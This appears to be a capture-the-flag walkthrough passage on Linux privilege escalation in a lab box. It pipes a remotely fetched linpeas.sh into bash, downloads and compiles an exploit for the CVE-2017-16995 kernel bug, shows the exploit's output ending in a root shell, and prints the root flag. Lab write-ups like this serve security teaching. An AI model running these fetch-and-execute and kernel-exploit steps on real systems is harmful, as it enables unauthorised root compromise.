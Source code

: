 #### Privilege escalation using kernel exploit (cve-2017-16995)

Result from Linpeas's linux exploit suggester 2

```bash
www-data@skynet:/var/www/html$ curl 10.11.19.145/linpeas.sh|bash
```

![](../../attachment/545bc31431c42121c80bb305d0de6b7f.png)

Download the exploit 

> https://www.exploit-db.com/exploits/45010

```bash
wget https://www.exploit-db.com/download/45010 -O cve.c
```

```bash
www-data@skynet:/var/www/html$ wget 10.11.19.145/cve.c -O cve.c
--2023-06-19 10:57:49--  http://10.11.19.145/cve.c
Connecting to 10.11.19.145:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 11826 (12K) [text/x-csrc]
Saving to: 'cve.c'

cve.c               100%[===================>]  11.55K  --.-KB/s    in 0.003s

2023-06-19 10:57:49 (3.52 MB/s) - 'cve.c' saved [11826/11826]

www-data@skynet:/var/www/html$ gcc cve.c -o cve
www-data@skynet:/var/www/html$ ./cve
[.]
[.] t(-_-t) exploit for counterfeit grsec kernels such as KSPP and linux-hardened t(-_-t)
[.]
[.]   ** This vulnerability cannot be exploited at all on authentic grsecurity kernel **
[.]
[*] creating bpf map
[*] sneaking evil bpf past the verifier
[*] creating socketpair()
[*] attaching bpf backdoor to socket
[*] skbuff => ffff95a47af30000
[*] Leaking sock struct from ffff95a4462fc400
[*] Sock->sk_rcvtimeo at offset 472
[*] Cred structure at ffff95a4521c8840
[*] UID from cred structure: 33, matches the current: 33
[*] hammering cred structure at ffff95a4521c8840
[*] credentials patched, launching shell...
# id
uid=0(root) gid=0(root) groups=0(root),33(www-data)
# cat /root/root.txt
3f0372db24753accc7179a282cd6a949
```